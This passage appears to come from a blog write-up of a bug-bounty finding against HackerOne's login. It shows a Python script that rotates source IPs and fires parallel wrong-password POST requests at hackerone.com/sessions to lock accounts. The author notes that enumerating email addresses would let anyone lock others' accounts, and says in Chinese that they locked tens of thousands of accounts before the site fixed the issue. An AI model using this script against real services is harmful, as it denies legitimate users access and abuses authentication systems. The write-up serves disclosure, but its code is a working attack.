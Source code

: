 ```
		"X-CSRF-Token":"...",
		"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
		"X-Requested-With":"XMLHttpRequest",
		"Cookie": "...",
		"Connection":"keep-alive"
	}
	try:

		s = requests.Session()
		new_source = source.SourceAddressAdapter(random.choice(ips))
		s.mount('http://', new_source)
		s.mount('https://', new_source)

		r = s.post("https://hackerone.com/sessions",headers=headers , data=datas, timeout=5)
		print "password: {} {}".format(datas['password'],r.content)
	except Exception,e:
		print e

if __name__ == '__main__':
	tasks = [sys.argv[1]]*110
	pool = Pool(20)
	pool.map(main, tasks)
```

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa7.png)

After 100+ login attempts with incorrect passwords, the account was locked out successfully.

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa6.png)

If I want to lock someone's account, I just need to enumerate the email addresses and then loop the script. Because the session will be invalidated after being locked, and the `unlock token` is unique each time it is locked.

## 0x04 End.

后来的故事就是封了万个号，h1官方进行了修正，并向被锁账号们群发了该事件的邮件：

![](https://blog-1252048719.cos.ap-shanghai.myqcloud.com/aa10.png)

Just For Fun :]